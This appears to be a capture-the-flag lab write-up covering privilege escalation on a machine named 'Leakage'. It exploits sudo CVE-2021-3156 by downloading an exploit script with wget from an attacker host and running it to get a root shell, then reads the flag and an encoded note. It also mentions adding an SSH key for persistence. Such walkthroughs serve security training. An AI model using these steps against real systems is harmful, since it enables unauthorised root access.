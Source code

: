 We can also add our public key to `.ssh`

# Privilege escalation
Considering that this machine was compromised around 2021, we can consider using so many exploits to escalate privileges.
```
aas@Leakage:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
There is a `CVE-2021-3156` could help us
`https://github.com/worawit/CVE-2021-3156.git`

Then we can get the root shell easily
```
aas@Leakage:/tmp$ wget http://10.10.14.5/exploit_nss.py
--2025-07-31 04:47:55--  http://10.10.14.5/exploit_nss.py
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: ‘exploit_nss.py’

exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0s      

2025-07-31 04:47:55 (229 MB/s) - ‘exploit_nss.py’ saved [8179/8179]

aas@Leakage:/tmp$ python3 exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(aas)

```

We can have another flag here, but we still have to crack the secured_note here.
```
# cat flag.txt
AKERVA{IkNow_Sud0_sUckS!}
# ls -al
total 28
drwx------  4 root root 4096 Feb  9  2020 .
drwxr-xr-x 24 root root 4096 Dec  7  2019 ..
-r--------  1 root root    0 Dec  7  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Feb  9  2020 .local
dr--------  2 root root 4096 Dec  7  2019 .ssh
-rw-r--r--  1 root root   26 Feb  9  2020 flag.txt
-r--------  1 root root  206 Feb  9  2020 secured_note.md
# cat secured_note.md
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre

```
